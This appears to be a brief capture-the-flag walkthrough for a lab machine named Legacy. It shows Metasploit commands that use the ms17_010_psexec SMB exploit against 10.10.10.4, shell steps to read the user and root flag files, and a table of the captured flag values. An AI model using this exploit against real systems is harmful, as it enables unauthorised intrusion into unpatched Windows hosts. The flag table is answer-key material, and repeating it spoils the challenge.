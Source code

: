 # Legacy: Walkthrough 

## Legacy Nmap Scan

![](Nmap.jpeg)

## Shell
Eternal Blue is used to gain shell. As the nmap shows the Windows machine has a chance 94% of being an Windows XP machine a quick exploitdatebase search of a potential vulnerablity revealed ms17_010_psexec
```
use windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.4
exploit
```


```
>cd Documents and Settings
>cd \john\Desktop
>cat \user.txt
>cd
>cd \Administrator\Desktop 
>ls
>cat root.txt
```


# Flags

| John          | e69af0e4f443de7e36876fda4ec7644f  |
| ------------- | ------------- |
| root          | 993442d258b0e0ec917cae9e695d5713  |
